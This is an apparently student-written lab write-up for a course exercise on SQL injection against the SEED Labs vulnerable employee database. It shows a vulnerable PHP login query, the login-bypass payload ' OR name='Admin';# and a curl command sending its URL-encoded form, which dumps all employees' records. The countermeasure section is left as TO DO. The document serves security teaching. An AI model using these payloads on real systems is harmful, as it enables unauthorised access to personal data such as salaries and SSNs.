

# CSUS CSC154: Lab 5 - SQL Injection  
[Lab 5 PDF](./writeup/pdf/)  

## Goal  
To fully understand the weakness in SQL semantics and know how to exploit the vulnerabilities in the interface between web applications and database servers, for retrieval of unallowed data.  

## Overview  
SQL injection is a code injection technique that exploits the vulnerabilities in the interface between web applications and database servers. The vulnerability is present when user's inputs are not correctly checked within the web applications before being sent to the back-end database servers. Many web applications take inputs from users, and then use these inputs to construct SQL queries, so the web applications can get information from the database. Web applications also use SQL queries to store information in the database. These are common practices in the development of web applications. When SQL queries are not carefully constructed, SQL injection vulnerabilities can occur. The SQL injection attack is one of the most common attacks on web applications. 

In this lab, we have created a web application that is vulnerable to the SQL injection attack. Our web application includes the common mistakes made by many web developers. Students' goal is to find ways to exploit the SQL injection vulnerabilities, demonstrate the damage that can be achieved by the attack, and master the techniques that can help defend against such type of attacks.  

## Setup  
The `SEEDUbuntu12.04` has come pre-configured with most of what we need to complete this lab.  

First, we must turn off the PHP mechanism to automatically defend against SQL injection attacks. The method called `magic quote`. This is done by editing the configuration file found in `/etc/php5/apache2/php.ini`, setting `magic_quotes_gpc = Off`, and then restarting apache.  
  
**Figure 1:** Editing PHP configuration to turn off SQL Injection defense mechanism.  

Next we must patch the VM for this lab. We download the patch file called `patch.tar.gz` from **[here](http://www.cis.syr.edu/~wedu/seed/Labs_12.04/Web/Web_SQL_Injection/files/patch.tar.gz)**. The file includes the web application and a script that will install all of the required files needed for this lab. First we download `patch.tar.gz` to our home folder and extract it.   
  
**Figure 2:** Downloading `patch.tar.gz`.  

  
**Figure 3:** Extracting patch.

The last step in our setup is to run `bootstrap.sh` to install the required files for the lab.  
  
**Figure 4:** Running installation script for this lab's web application.  


## Task 1: MySQL Console   
The objective of this task is to get familiar with SQL commands by playing with the provided database. There is a database called `Users`, which contains a table called `credential`; the table stores the personal information (e.g. eid, password, salary, ssn, etc.) of every employee. Administrator is allowed to change the profile information of all employees, but each employee can only change his/her own information. In this task, we need to play with the database to get familiar with SQL queries. The user name is `root` and password is `seedubuntu`.  

First we log into MySQL via `mysql -u root -pseedubuntu`, and load the `Users` database by `use Users;`.   
  
**Figure 5:** Logging into MySQL as `root` user, and switching to `Users` database.  

To show what tables are there in the `Users` database, we use `show tables;` to print out all the tables.  
  
**Figure 6:** All tables (the only one) in the `Users` database. 

After running the commands above, we need to use `SELECT * FROM credential WHERE Name='Alice';` to print all the profile information of the employee Alice.  
  
**Figure 7:** Printing all profile information for employee Alice.  


## Task 2: SQL Injection Attack on SELECT Statement  
We can go to the entrance page of the web application at `www.SEEDLabSQLInjection.com`, where we will be asked to provide an Employee ID and Password to log in. The authentication is based on Employee ID and Password, so only employees who know their IDs and passwords are allowed to view/update their profile information. Our job, as an attacker, is to log into the application without knowing any employee's credential.  

To help us get started with this task, we're to examine the PHP code `unsafe_credential.php`, located in the `/var/www/SQLInjection` directory. This is the code used to conduct user authentication. The following psudocode snippet below explains how users are authenticated.

```php
$conn = getDB();
$sql = "SELECT id, name, eid, salary, birth, ssn, phonenumber, address, email, nickname, Password
		FROM credential
		WHERE eid= '$input_eid' and password='$input_pwd'";

$result = $conn->query($sql))

// The following is psuedo code
if(name=='admin'){
	return All employees information.
} else if(name!=NULL){
	return employee information.
} else {
	authentication fails.
}
```

The above SQL statement selects personal employee information such as id, name, salary, ssn etc from the credential table. The variables `$input_eid` and `$input_pwd1` hold the strings typed by users in the login page. Basically, the program checks whether any record matches with the employee ID and password; if there is a match, the user is successfully authenticated, and is given the corresponding employee information. If there is no match, the authentication fails.  

### Task 2.1: SQL Injection Attack from webpage  
Our task this time is to log into the web application as the administrator from the login page, so we can see the information of all the employees. We assume that we do know the administrator's account name which is `admin`, but you do not know the `ID` or the `password`.   

To achieve this, we use the payload `' OR name='Admin';#` into the `Employee ID` field.  
  
**Figure 8:** Payload entered into `Employee` ID to exploit login code.  

This payload will modify the SQL statement above to become the following.  

 ```sql
 SELECT id, name, eid, salary, birth, ssn, phonenumber, address, email, nickname, Password 
 FROM credential 
 WHERE eid= ' ' OR name='Admin';
 ```

We can see that the SQL `OR` statement we added will find the name `Admin`, and the PHP snippet will return us all the employee information because of it.  

```php
if(name=='admin'){
	return All employees information.
} 
``` 

  
**Figure 9:** Logged in as Admin via SQL Injection.  


### Task 2.2: SQL Injection Attack from command line  
The next task is to repeat Task 2.1, but without using the webpage. We'll use `curl` to make our request to do this through the terminal. We must encode special characters, a goo cheat sheet for url encoded characters can be found **[here](https://www.degraeve.com/reference/urlencoding.php)**.

Once we've url encode our payload from Task 2.1 it becomes `%27%20OR%20Name%3D%27Admin%27%3B%23`. We will include this modified payload in our `GET` request from `curl` as such.

```
curl 'http://www.seedlabssqlinjection.com/unsafe_credential.php?EID=%27%20OR%20Name%3D%27Admin%27%3B%23'
```

  
**Figure 10:** Performing SQL Injection to login and return data via `curl`.  

### Task 2.3: Append a new SQL statement  
TO DO  


  

## Task 3: SQL Injection Attack on UPDATE Statement  
TO DO  

  

## Task 4: Countermeasure - Prepared Statement
TO DO